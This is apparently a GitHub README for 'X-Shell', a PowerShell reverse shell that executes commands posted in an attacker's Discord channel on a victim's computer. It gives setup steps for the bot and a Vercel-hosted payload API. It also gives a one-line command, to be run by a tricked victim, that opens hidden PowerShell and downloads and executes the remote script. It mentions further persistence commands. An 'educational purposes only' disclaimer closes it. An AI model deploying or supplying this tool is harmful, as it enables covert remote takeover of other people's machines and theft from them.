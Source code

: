 ![](.src/banner.png)
# X-Shell

This is a simple powershell script that establishes a connection to a Discord server using a Bot to listen on a specified channel. All messages from that channel will be executed on the machine (reverse Shell). I also added an API, which returns the script when provided with the correct Bearer Token, making it easy to deploy the Reverse Shell on the Victims Device.

---
## Usage

1. Use this template to create a Discord server https://discord.new/AFkzNqmAdmex
2. Write down the Ids of #chat, the Users category and the server
3. Create a discord bot https://discord.com/developers/applications, get its Id and add it to the server
4. Fork this repo, make it private and edit `index.js`:
   - Edit the token in line 27 to whatever you like
   - Adjust lines 32-35 to match your written down Ids and the Bot token
   - Create a Vercel account if you haven't already and deploy your private GitHub repo
5. Now that you've set up the API, simply get someone to execute this command, where you replace the vercel site with yours and the token following after "Bearer", with the one you set in step 4
   
```powershell -c "Start-Process -WindowStyle Hidden powershell -ArgumentList '-c iex ((irm -Uri ''https://xyz.vercel.app'' -Headers @{''Authorization''=''Bearer xxx''}))'"```

---
#### If you encounter any issues feel free to open an Issue

--- 

If you wan the Remote connection to be persistent, you could run different commands, found in .src/commands.txt

---

Even tho the API needs an authoriation Token, its still quite simple to fetch the powershell script and abuse the Discord Bot using the token. Ensure the api authorization token doesn't get wrong hands.

---

## Disclaimer

This tool is for educational purposes only, and I do not assume any liability for any damages.
